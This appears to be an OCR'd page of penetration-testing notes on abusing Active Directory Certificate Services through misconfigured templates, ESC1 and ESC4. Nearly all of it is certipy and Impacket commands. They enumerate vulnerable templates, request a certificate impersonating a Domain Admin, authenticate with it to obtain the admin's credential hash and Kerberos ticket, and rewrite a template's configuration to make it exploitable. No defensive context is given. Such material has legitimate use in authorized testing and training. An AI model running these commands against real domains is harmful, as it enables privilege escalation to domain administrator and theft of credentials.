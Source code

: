 ```
certipy find -u 'billy@foobar.com' -p <password> -dc-ip <DC_IP> -vulnerable -enabled

// Templates vulnerable to ESC1 have the following configurations:

- Client Authentication: True
- Enabled: True
- Enrollee Supplies Subject: True
- Requires Management Approval: False
- Authorized Signatures Required: 0

```

Request vulnerable certificate template to DA

```
certipy req -u 'billy@foobar.com' \ -p '<PASSWORD>' \ -dc-ip '10.10.1.100' \ -target ' foobar-CA.foobar.com ' \ -ca 'foobar-CA' -template 'FOO_Templ'\ -upn 'DA_Dan@foobar.com'
```

if you got problem with creds, try to use kerberos auth

```
// To get a service ticket for your user, you can use Impacket’s getTGT
python3 getTGT.py 'foobar.com/billy'

// Make sure to include the full path to your CCache file
export KRB5CCNAME=/full/path/to/billy.ccache

// Request vulnerable certificate template to DA with kerberos auth
certipy req -u 'billy@foobar.com' -k -no-pass \ -dc-ip '10.10.1.100' \ -target ' foobar-CA.foobar.com ' \ -ca 'foobar-CA' -template 'FOO_Templ'\ -upn 'DA_Dan@foobar.com'
```

 use the certificate to obtain the credential hash and a Kerberos ticket of the target DA

```
certipy auth -pfx DA_Dan.pfx
```


##### ESC4

Use certipy tool to Enumerate for vulnerable template to ESC4

```
certipy find -u 'billy@foobar.com' -p <password> -dc-ip <DC_IP> -vulnerable -enabled

//“ESC4Certificate_FOOBAR” template was configured to grant the “Domain Users” group with `==Write Owner Principals==` and `==Write Property Principals==` permissions. This means that any foobar.com user has permission to modify any given property in the template.

```

modify the template configuration to meet ESC1 conditions.

```
certipy template -u billy@foobar.com \ -p REDACTED \ -template ESC4Certificate_FOOBAR \ -dc-ip <DC_IP> \ -save-old
```
